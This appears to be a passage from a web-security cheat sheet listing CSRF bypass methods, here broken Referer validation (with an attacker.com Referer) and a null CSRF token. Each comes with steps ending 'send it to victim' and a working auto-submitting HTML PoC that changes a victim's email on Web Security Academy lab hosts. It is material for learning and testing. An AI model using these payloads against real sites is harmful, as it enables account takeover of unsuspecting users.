 ## Bypass Method - 6 : Try [attacker.com](http://attacker.com) or similar payload in referer header. (Validation of Referer can be circumvented)

```markdown
Test case: CSRF with broken Referer validation

1. Intercept the request and try changing referer to some other domain. (Check all cases how it is been verified)
2. Now Generate a normal POC and include any JavaScript in the script block to alter the URL and Referer
3. Done Send it to victim.

Example CSRF POC:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac761f621f79d75680e4054c00160033.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="session" value="rk13v2KYDFByO0OFL0xnHcnIVZbvAHNg">
		<input type="text" name="email" value="gg@gg.com">
		<input type="submit" value="Send">
	</form>
<script>
			history.pushState("", "", "/?ac761f621f79d75680e4054c00160033.web-security-academy.net")
      document.forms[0].submit();
    </script>
</body>
</html>
```

## Bypass Method - 7: Send `null` value in csrf token.

```markdown
Test Case: Validation of CSRF token depends on token value being

1. Interect with functionality and intercept the request.
2. Send this requets to repeater.
3. Add null csrf param and generate csrf poc
4. Edit according to your preference,For example:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac8a1fbd1e6d76ae806817f900d50032.web-security-academy.net:443/email/change-email">
		<input type="text" name="email" value="natsu@natsu.com">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

5. Done send this to victim.
```
